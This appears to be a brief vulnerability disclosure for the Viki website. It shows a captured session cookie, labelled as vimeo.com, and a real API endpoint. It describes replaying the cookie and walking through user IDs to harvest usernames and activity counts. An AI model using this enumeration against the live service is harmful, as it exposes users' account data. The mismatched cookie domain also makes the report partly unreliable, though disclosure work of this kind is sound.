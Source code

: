 # About Viki Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie:_cfuvid=hbeB.2xgQOS26X0B6BLFKGZPOAwQCxTNQNCay79EDvU-1712127143589-0.0.1.1-604800000; path=/; domain=.vimeo.com; HttpOnly; Secure; SameSite=None
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: username.

> Request method: GET, information can be obtained by traversing user id,such as "6056115u","18105409u"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params |
|---------|---|-----------|
|Yizhimuzhu666|https://api.viki.io/v4/contributors/6056115u/count.json|6056115u|



### Leaked packet cases 
``` 
{
    "user_id": "6056115u",
    "username": "*******",
    "subtitles_count": 72285,
    "segments_count": 29,
    "ratings_count": 27,
    "suggestions_count": 37
}
```